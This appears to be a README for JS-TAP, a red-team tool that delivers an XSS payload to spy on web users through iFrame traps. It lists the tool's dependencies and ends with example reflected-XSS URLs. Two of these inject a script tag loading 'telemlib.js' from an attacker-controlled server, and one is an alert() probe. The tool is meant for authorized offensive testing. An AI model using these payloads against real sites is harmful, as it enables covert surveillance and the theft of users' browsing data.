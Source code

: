 # JS-TAP
Tailored XSS payload that uses iFrame traps to spy on user. Can also be used as a post exploitation payload. 
Intended for redteam ops. 
@hoodoer

This tool is intended to be used on systems you are authorized to attack.
Do not use this tool for illegal purposes, or I will be very angry in your general direction. 


Pip requirements: 

Server ones:
flask
flask-cors
flask-sqlalchemy
sqlalchemy-utils
flask-login
flask-bcrypt
python-magic
pyyaml
ua-parser
user-agents



Generator ones:
dataframe_image
fpdf
progressbar




HTML Parser:
bs4




https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27https://192.168.2.61:8444/lib/telemlib.js%27%3E%3C/script%3E

https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27https://127.0.0.1:8444/lib/telemlib.js%27%3E%3C/script%3E



https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E


